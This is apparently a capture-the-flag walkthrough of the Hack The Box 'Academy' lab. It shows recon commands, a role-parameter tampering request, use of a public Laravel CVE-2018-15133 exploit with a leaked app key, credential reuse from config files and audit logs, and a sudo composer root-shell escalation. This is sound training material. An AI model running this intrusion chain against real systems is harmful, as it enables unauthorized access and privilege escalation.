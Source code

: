 # Academy

Academy is a easy HTB lab that focuses on web vulnerability, information disclosure and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Recon
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.72.136
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-30 11:02 GMT
Nmap scan report for 10.129.72.136
Host is up (0.087s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c090a3d835256ffa3306cf8013a0a553 (RSA)
|   256 2ad54bd046f0edc93c8df65dabae7796 (ECDSA)
|_  256 e16414c3cc51b23ba628a7b1ae5f4535 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.61 seconds
```

Checking the website:
```
$ curl -I 10.129.72.136
HTTP/1.1 302 Found
Date: Tue, 30 Jan 2024 11:03:25 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://academy.htb/
Content-Type: text/html; charset=UTF-8
```

Adding new domains found to `/etc/hosts`.
```
sudo tee --append /etc/hosts <<< "10.129.72.136 academy.htb"
```

Enumerating the files and folders on the website:
```
$ feroxbuster -u http://academy.htb/ -A -k -d 10 --filter-status 404 --smart --output web.txt -w /usr/share/wordlists/dirb/big.txt
200      GET      141l      226w     2627c http://academy.htb/login.php
200      GET      148l      247w     3003c http://academy.htb/register.php
200      GET       60l      123w     5261c http://academy.htb/images/logo.svg
200      GET       76l      131w     2117c http://academy.htb/
301      GET        9l       28w      311c http://academy.htb/images => http://academy.htb/images/
[####################] - 14s    40997/40997   0s      found:5       errors:0
[####################] - 12s    20482/20482   1644/s  http://academy.htb/
[####################] - 5s     20482/20482   3766/s  http://academy.htb/images/

$ feroxbuster -u http://academy.htb/ -A -k -d 10 --filter-status 404 --smart --output web.txt -w /opt/useful/SecLists/Discovery/Web-Content/raft-medium-files.txt
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       76l      131w     2117c http://academy.htb/
200      GET      141l      226w     2627c http://academy.htb/login.php
200      GET      148l      247w     3003c http://academy.htb/register.php
200      GET        0l        0w        0c http://academy.htb/config.php
200      GET       18l      188w     8276c http://academy.htb/images/logo.png
200      GET      141l      227w     2633c http://academy.htb/admin.php
200      GET       60l      123w     5261c http://academy.htb/images/logo.svg
200      GET       76l      131w     2117c http://academy.htb/index.php
200      GET      366l     2478w   164846c http://academy.htb/Modules_files/*
```

### Attack
We can see there are two login pages, assuming one `login.php` for user and another one `admin.php` for admin. There is also a `register.php` page to add new user.

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

uid=test2&password=test&confirm=test&roleid=0
```

In this request, we can see a `roleid` which not there on the form. This paramater can be modified. Changed the roleId to 1 and it worked. Once the roleId was changed then we can login for that user on http://academy.htb/admin-page.php .

From the website after admin login, we geth following information:
* title - `Academy Launch Planner`
* `Fix issue with dev-staging-01.academy.htb`

Adding this new domain to list.
```
sudo tee --append /etc/hosts <<< "10.129.72.136 dev-staging-01.academy.htb"
```

Opening the website `dev-staging-01.academy.htb` shows us erros page. This page gives us following information:
* DOCUMENT_ROOT "/var/www/html/htb-academy-dev-01/public"
* SERVER_SOFTWARE "Apache/2.4.41 (Ubuntu)"
* APP_NAME "Laravel"
* APP_ENV "local"
* APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
* APP_DEBUG "true"
* DB_CONNECTION "mysql"
* DB_HOST "127.0.0.1"
* DB_PORT "3306"
* DB_DATABASE "homestead"
* DB_USERNAME "homestead"
* DB_PASSWORD "secret"

Since the app key is leaked, searching online will show us that this website running is Laravel which is vulnerable to `CVE-2018-15133` exploit.
```
git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133.git
cd exploit_laravel_cve-2018-15133
python3 pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive

$ whoami
www-data
```

### User

Enumerating the machine:
```
$ ls /home
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

Checking out the files and folder, we found somethig different in following `.env` file in `/var/www/html/academy/` folder.
```
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=my****************!!
```
Testing this password against all logins, we find that `cry0l1t3:my****************!!` works.

Getting the flag:
```
ssh cry0l1t3@academy.htn
my****************!!
$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Checking the id:
```
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```
Looks like `cry0l1t3` is apart of `adm` so it should have access to logs.

Searching across all logs in `/var/log` folder using `grep -r pass .` but didn't find anything. We can try `aureport` tool to search through logs.
```
$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/20 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/20 02:28:13 84 0 ? 1 su "mrb3n_*******!",<nl>
3. 08/12/20 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/20 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/20 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
...
10. 08/12/20 02:33:26 98 0 ? 1 sh "exit",<nl>
11. 08/12/20 02:33:30 107 0 ? 1 sh "/bin/bash -i",<nl>
12. 08/12/20 02:33:36 108 0 ? 1 bash "istory",<ret>,"history",<ret>,"exit",<ret>
13. 08/12/20 02:33:36 109 0 ? 1 sh "exit",<nl>
```

Got credentials - `mrb3n:mrb3n_*******!`

Relogin through ssh as `mrb3n` and then checking the `sudo -l` for the user:
```
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
From `https://gtfobins.github.io/gtfobins/composer/`, we got the following an attack path. Executing following commands give us root access:
```
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
# id
uid=0(root) gid=0(root) groups=0(root)
```
Getting the flag:
```
# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
